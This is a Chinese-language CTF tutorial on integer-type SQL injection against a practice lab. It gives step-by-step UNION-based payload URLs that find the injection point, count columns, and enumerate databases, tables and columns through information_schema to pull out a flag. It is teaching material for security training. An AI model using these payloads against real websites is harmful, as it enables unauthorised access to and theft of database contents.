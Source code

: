 
#第二节：sql注入之sql注入整型报错注入

##2.0：免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。

##2.1：上节课程答疑

###2.1.1：sql注入的最终目的是什么？

sql注入的最终目的就是将非法sql语句带入数据库中进行查询，以此来获取数据库中的数据，有些时候也可以通过sql注入获取系统的权限。

###2.1.2：我们如何才能实现这个最终目的

简单的来说，这个问题可以解释为sql注入的流程是什么。一次简单的sql注入的流程大致如下：

>1.判断注入点

>2.判断注入类型

>3.获取表名、列明、字段名

>4.查寻

##2.2:什么是整型注入

sql注入从分类上讲大概可以分为整形注入和字符型注入。

在网站正常的功能设计中，一般通过传入参数的不同来返回不同的内容。如ID、年龄等。如果输入的参数为整形，且存在sql注入。则可以被认为存在sql注入。如果传入的参数为字符，且存在sql注入，则可以认为存在字符型注入。正常情况下，字符型注入需要先进行闭合然后在进行注入。

> 整型注入后台sql语句为 : select * from  table where id =8

>字符型注入的后台sql语句为：select * from tables where username="admin"

##2.3:整型注入练习环境

>http://39.98.88.18:8080/sql/Less-2/index.php?id=1

##2.4:sql注入实战

1.判断注入点

在id=1的后面添加一个单引号，然后报出错误。说明此处存在注入。

![](img/2.3/1.png)

加单引号的目的是为了引发报错，从而证明此处存在注入。报错信息说明此处有语法错误.

2.报错语句分析

>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1

我们刚刚在id=1后面添加了一个单引号，此时在后台执行的sql语句为：

>select * from table where id=1'

报错语句中一共有三个引号，其中最左侧，和最右侧的两个引号是语句中为了标明错误的。与后台执行的语句中。剩下的那个引号是我们刚刚自己的添加的。此时，便可以判断这个漏洞为整型sql注入。

3.union联合注入。

整型注入的手工注入一般采用union 联合注入，union的作用是将两个sql语句进行联合。使用时需要注意一下几点：

- union前后的两个sql语句选择的列数必须相同才可以。同时列也必须有相似的数据类型。

- 当两个sql语句进行联合操作时，当前一个语句选择的内容为空，这时候才可以讲后面的语句执行后的结果显示出来。

4.判断列数。

因union联合查询要求前后列数一致，故先判断列数。

>url ： http://39.98.88.18:8080/sql/Less-2/index.php?id=1 order  by 3--+

order by的意思是对数据进行排序，当order by为4时，报错。故此时列数为3列。

![](img/2.3/2.png)

--+表示注释，注释掉后方无用的内容。在注入时，注释必不可少。

5.判断回显位置

在这个网页上，显示数据库查询结果的只有两行。但是union语句要求前后列数一致。我们此时我们要进行判断那一列上的查询会将结果显示出来。

>url : http://39.98.88.18:8080/sql/Less-2/index.php?id=-1%20union%20select%201,2,3%20--+

![](img/2.3/3.png)

6.查寻数据库版本

由上可知，在2,3处会将查询的结果给显示出来，所以构造语句：

>url:http://39.98.88.18:8080/sql/Less-2/index.php?id=-1%20union%20select%201,2,3%20--+

![](img/2.3/4.png)

得出版本为5.5.59.大于5.故存在information_schema.

7.查询数据库名

>url : http://39.98.88.18:8080/sql/Less-2/index.php?id=-1%20union%20select%201,group_concat(schema_name),3%20from%20information_schema.schemata--+

![](img/2.3/5.png)

group_concat: group_concat函数是典型的字符串连接函数,讲查询结果以逗号分隔。连接在一起。

8.查询表名

发现有flag这个数据，查询列名的url如下：

>url :  http://39.98.88.18:8080/sql/Less-2/index.php?id=-1%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=%27security%27--+

![](img/2.3/6.png)

9.查询列名

>url : http://39.98.88.18:8080/sql/Less-2/index.php?id=-1%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=%27flag%27--+

![](img/2.3/7.png)

10.查询数据

>url : http://39.98.88.18:8080/sql/Less-2/index.php?id=-1%20union%20select%201,2,flag%20from%20flag%20--+

![](img/2.3/8.png )

123456789即为我们所需数据。到此一次sql手工注入完成。

##2.5课后习题

课后习题地址：http://39.98.88.18/challenges#%E6%95%B4%E5%9E%8B%E6%B3%A8%E5%85%A5

##2.6 小结

CTF（web和内网渗透系列教程）的清单请在“https://github.com/xuanhun/HackingResource” 查看，定时更新最新章节链接

答疑、辅导请加入玄魂工作室--安全圈，一起成长探讨更私密内容。微信扫码了解详情：

![](img/2.3/00.jpeg)

及时获取更多消息，请关注微信订阅号

![](img/2.3/0.jpg)
